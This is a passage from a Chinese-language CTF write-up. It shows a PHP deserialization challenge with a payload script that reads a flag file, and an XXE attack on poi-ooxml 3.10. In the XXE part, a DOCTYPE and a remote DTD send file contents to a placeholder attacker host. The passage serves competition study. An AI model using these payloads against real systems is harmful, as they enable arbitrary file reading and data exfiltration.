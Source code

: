 ```php
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```
```php
<?php
class FileHandler {

    public $op = "2e0";
    public $filename = "/web/html/flag.php";

}

$a = new FileHandler();
echo urlencode(serialize($a));
```
* 科学计数绕弱类型
* PHP是最好的语言，直接将protected改public
* alphine下配置文件`/web/config/httpd.conf`（真坑）
* 最后就去读`/web/html/flag.php`

### filejava
首先可以任意文件读取，然后发现poi-ooxml-3.10，有漏洞

在[Content-Types].xml加入下面代码：
```
<!DOCTYPE convert [ 
    <!ENTITY % remote SYSTEM "http://xxxxx/evil.dtd">  
    <!ENTITY % file SYSTEM "file:///flag">
    %remote;
    %send;
]>

<info><username>jylsec</username></info>
```
然后上传xlsx即可
* 远程服务器
```
<!ENTITY % start "<!ENTITY % send SYSTEM 'http://xxxxx/?%file;'>">
%start;
```
